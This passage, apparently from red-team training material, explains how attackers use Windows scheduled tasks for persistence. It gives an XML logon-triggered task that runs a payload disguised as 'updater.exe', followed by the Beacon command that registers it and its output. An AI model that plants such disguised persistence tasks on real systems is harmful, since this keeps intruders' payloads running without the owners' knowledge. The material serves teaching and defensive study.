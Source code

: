 **,The** Windows Task Scheduler is able to perform routine tasks based on pre-defined triggers, including:

- At a specific time on a daily, weekly, or monthly schedule.
    
- When the computer goes idle.
    
- When the system starts.
    
- When a user logs on.
    
- When a system event occurs.
    

These are usually used to run software updates, and other clean-up tasks, etc.  An adversary can also add a scheduled task to execute payloads on a trigger of their choosing [[T1053.005](https://attack.mitre.org/techniques/T1053/005/)].

At their heart, tasks are defined in XML format.  Information about creating task definitions can be found [here](https://learn.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-schema-elements) and [here](https://learn.microsoft.com/en-us/windows/win32/taskschd/time-trigger-example--xml-).  The `schtaskscreate` BOF can create scheduled tasks from a given XML task definition.  Here's an example that will trigger when the user logs in:

```xml
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <Triggers>
    <LogonTrigger>
      <Enabled>true</Enabled>
      <UserId>CONTOSO\pchilds</UserId>
    </LogonTrigger>
  </Triggers>
  <Principals>
    <Principal>
      <UserId>CONTOSO\pchilds</UserId>
    </Principal>
  </Principals>
  <Settings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
  </Settings>
  <Actions>
    <Exec>
      <Command>%LOCALAPPDATA%\Microsoft\WindowsApps\updater.exe</Command>
    </Exec>
  </Actions>
</Task>
```

Run the command `schtaskscreate \Beacon XML CREATE` without any further arguments and a file dialogue box will appear for you to browse and select the XML file.

> Replace `\Beacon` with any name you like, but it must start with the `\`.

```powershell
beacon> schtaskscreate \Beacon XML CREATE

createTask hostname: taskpath:\Beacon mode:2 force:0
Got user name and security descriptor
Valitdated task
Created task path
Registered task
SUCCESS.
```

> The task can be deleted using `schtasksdelete`.


